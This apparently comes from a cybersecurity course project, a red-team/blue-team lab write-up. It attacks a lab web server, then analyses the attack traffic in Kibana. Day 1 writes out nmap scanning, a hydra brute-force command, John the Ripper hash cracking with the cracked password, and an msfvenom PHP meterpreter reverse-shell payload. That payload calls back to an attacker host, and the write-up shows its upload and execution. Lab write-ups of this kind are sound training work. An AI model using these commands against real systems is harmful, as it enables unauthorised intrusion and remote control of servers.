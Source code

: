 ### Presentation

* [Presentation Project 2 - Red vs Blue](https://docs.google.com/presentation/d/1o5kP7RrTumLeOpAKAgcN4QbE0NhggUn0IqP9X8dSDVE/edit?usp=sharing)
* [Presentation Project 2 - Red vs Blue - PDF](/Project_2-Red-vs-Blue/documentation/Project%202%20-%20Red%20vs%20Blue.pdf)

### Day 1 Deliverables

Complete the following to find the flag:

- Discover the IP address of the Linux web server.
> Run ```nmap 192.168.1.0/24```

![1-network-discovery](screenshots/1-network_discovery.png)

- Locate the hidden directory on the web server.
> Navigate to http://192.168.1.105:80, explored the server contents with a browser.

![2-website](screenshots/2-website.png)
![3-secret-folder](screenshots/3-secret-folder.png)

- Brute force the password for the hidden directory using the hydra command:
> Find the wordlist and unzip the package.

![4-rockyou-find](screenshots/4-rockyou-find.png)
![5-unzip-rockyou](screenshots/5-unzip-rockyou.png)

> Ran Hydra with the following command ```hydra -l ashton -P rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder```, logged into the website.

![6-hydra-bruteforce](screenshots/6-hydra-bruteforce.png)
![7-secret-folder-contents](screenshots/7-secret-folder-contents.png)

- Break the hashed password with the Crack Station website or John the Ripper.
> Read the contents of the secret folder and cracked the HASH password with John the Ripper. The cracked password is ```linux4u```.

![8-webdav-contents](screenshots/8-webdav-contents.png)
![9-john-the-ripper](screenshots/9-john-ripper.png)

- Connect to the server via WebDav.
> Connected to the WebDav service at ```192.168.1.105/webdav```.

![10-webdav_passwd](screenshots/10-webdav_passwd.png)

- Upload a PHP reverse shell payload.
> Created the payload with ```msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > meterpreter.php``` followed by uploading it with ```cadaver http://192.168.1.105/webdav``` and ```put meterpreter.php```.

![11-msfvenom](screenshots/11-msfvenom.png)
![12-cadaver](screenshots/12-cadaver.png)
![13-metasploit](screenshots/13-metasploit.png)

- Execute payload that you uploaded to the site to open up a meterpreter session.
> Payload executed by going to http://192.168.1.105/webdav/meterpreter.php.

![14-payload](screenshots/14-payload.png)

- Find and capture the flag.
> Ran ```locate flag```, followed by ```head /flag.txt```

![15-locate_flag](screenshots/15-locate_flag.png)
![16-flag](screenshots/16-flag.png)

### Day 2 Deliverables

#### Identify the offensive traffic.

* What time did the port scan occur?

> Port scan from 192.168.1.90 started around 14:42 on May 9th, 2022.

* How many packets were sent, and from which IP?

> 166,131 packets were sent from 192.168.1.90

* What indicates that this was a port scan?

> SYN scans from 192.168.1.90 to multiple ports on 192.168.1.105 through ICMP Echo for host detection.

![port-scan](/Project_2-Red-vs-Blue/screenshots/kibana-portscan.png)
#### Find the request for the hidden directory.

* What time did the request occur? How many requests were made?

> The request occurred at 15:07 on May 9th, 2022. There were 16,297 requests were made.

![kibana-secretfolder](/Project_2-Red-vs-Blue/screenshots/kibana-secretfolder.png)

* Which files were requested? What did they contain?

> The file ```/connect_to_corp_server``` was accessed. It contains instructions how to access web dav server, including MD5 Hashed password.

![kibana-filelook](/Project_2-Red-vs-Blue/screenshots/kibana-filelook.png)
#### Identify the brute force attack.

* How many requests were made in the attack?

> There were 16,297 requests made during the attack.

![kibana-hydra](/Project_2-Red-vs-Blue/screenshots/kibana-hydra.png)

* How many requests had been made before the attacker discovered the password?

> 16,296 attempts were made, resulting in HTTP Response code 401. The 16,297th attempt, was successful with HTTP Response code 301.

![kibana-301](/Project_2-Red-vs-Blue/screenshots/kibana-hydra301.png)
#### Find the WebDav connection.

* How many requests were made to this directory?

> There were 18 requests made to ```/webdav``` directory.

![kibana-webdav](/Project_2-Red-vs-Blue/screenshots/kibana-webdav.png)

* Which files were requested?

> The file requested was called ```meterpreter.php```.

![kibana-file](/Project_2-Red-vs-Blue/screenshots/kibana-accessedfiles.png)

